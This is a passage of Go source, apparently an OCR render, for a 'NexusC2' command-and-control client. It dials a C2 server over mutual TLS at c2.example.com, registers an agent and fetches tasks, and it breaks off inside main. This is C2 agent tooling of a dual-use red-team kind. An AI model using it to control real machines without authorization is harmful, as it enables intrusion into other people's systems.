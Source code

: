 ```go
    client pb.NexusC2Client
}

func NewNexusClient(address, certFile, keyFile string) (*NexusClient, error) {
    cert, err := tls.LoadX509KeyPair(certFile, keyFile)
    if err != nil {
        return nil, err
    }
    
    config := &tls.Config{
        Certificates: []tls.Certificate{cert},
    }
    
    creds := credentials.NewTLS(config)
    conn, err := grpc.Dial(address, grpc.WithTransportCredentials(creds))
    if err != nil {
        return nil, err
    }
    
    client := pb.NewNexusC2Client(conn)
    
    return &NexusClient{
        conn:   conn,
        client: client,
    }, nil
}

func (c *NexusClient) RegisterAgent(ctx context.Context, req *pb.RegistrationRequest) (*pb.RegistrationResponse, error) {
    return c.client.RegisterAgent(ctx, req)
}

func (c *NexusClient) GetTasks(ctx context.Context, agentID string, maxTasks uint32) ([]*pb.Task, error) {
    req := &pb.TaskRequest{
        AgentId:  agentID,
        MaxTasks: maxTasks,
    }
    
    stream, err := c.client.GetTasks(ctx, req)
    if err != nil {
        return nil, err
    }
    
    var tasks []*pb.Task
    for {
        task, err := stream.Recv()
        if err != nil {
            break
        }
        tasks = append(tasks, task)
    }
    
    return tasks, nil
}

func main() {
    client, err := NewNexusClient(
        "c2.example.com:443",
        "client.crt",
        "client.key",
    )
    if err != nil {
```